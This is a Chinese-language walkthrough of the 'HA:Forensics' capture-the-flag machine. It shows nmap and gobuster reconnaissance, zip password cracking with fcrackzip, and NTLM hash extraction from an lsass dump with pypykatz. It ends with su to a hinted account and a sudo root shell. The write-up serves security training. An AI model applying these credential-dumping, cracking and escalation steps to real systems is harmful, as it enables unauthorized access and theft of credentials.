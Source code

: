 
## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.34     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:23 EDT
Nmap scan report for 10.10.10.34
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F0:06:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80 10.10.10.34   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:24 EDT
Nmap scan report for 10.10.10.34
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:53:67:0b:a4:0b:55:cd:23:7f:d1:07:bf:99:c2:44 (RSA)
|   256 04:76:53:52:aa:63:f9:05:89:a8:9b:2d:ef:61:fa:e0 (ECDSA)
|_  256 28:84:37:14:8a:25:8e:53:c2:6b:cc:6f:04:77:fd:da (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Forensics
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F0:06:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.20 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script vuln -p 22,80 10.10.10.34
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:26 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.34
Host is up (0.00075s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /style/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
MAC Address: 00:0C:29:F0:06:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 57.27 seconds

```
## web渗透


根据题目意思取证，看一下图片信息，得到一个莫名的flag
![](images/2024-03-13-16-36-01.png)

这是第一个flag是吧

扫描目录得到几个存了style和图片的站点
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.34/  -q -t 100 -x txt,html,rar,zip,sql
/.html                (Status: 403) [Size: 276]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.34/images/]
/index.html           (Status: 200) [Size: 1690]
/tips.txt             (Status: 200) [Size: 19]
/style                (Status: 301) [Size: 310] [--> http://10.10.10.34/style/]
/.html                (Status: 403) [Size: 276]

```
![](images/2024-03-13-16-37-21.png)
得到一个压缩包和目录

下载了压缩包需要密码
而有有一对公私钥
![](images/2024-03-13-18-50-36.png)
pgp的加密，去解密一下得到如下信息
![](images/2024-03-13-18-48-43.png)
去kali爆破吧 
```bash                         
┌──(kali㉿kali)-[~/workspace]
└─$ sudo fcrackzip -D -p pass.txt flag.zip 
possible pw found: for007 ()
```
![](images/2024-03-13-19-08-52.png)

接下来去使用`pypykatz`解析压缩包中的另一个文件
pypykatz lsa -k ~/workspace minidump lsass.DMP 
![](images/2024-03-13-20-09-03.png)
可以发现用户jasoos的用户名及密码hash
![](images/2024-03-13-20-14-35.png)
![](images/2024-03-13-20-13-44.png)
在线解密得到了密码

## ssh连接+提权

连接后ftp登录另一台主机
找到文件saboot.001
使用autopsy分析
得到flag3
![](images/2024-03-13-20-31-40.png)
还有下一条提示
![](images/2024-03-13-20-33-04.png)
疑似base64
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'amVlbmFsaWlzYWdvb2RnaXJs'|base64 -d                                   
jeenaliisagoodgirl 
```

```bash
jasoos@ubuntu:~$ su root
Password: 
su: Authentication failure
jasoos@ubuntu:~$ su forensic
Password: 
forensic@ubuntu:/home/jasoos$ sudo -l
[sudo] password for forensic: 
Matching Defaults entries for forensic on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User forensic may run the following commands on ubuntu:
    (ALL : ALL) ALL
forensic@ubuntu:/home/jasoos$ sudo /bin/bash
root@ubuntu:/home/jasoos# 
```
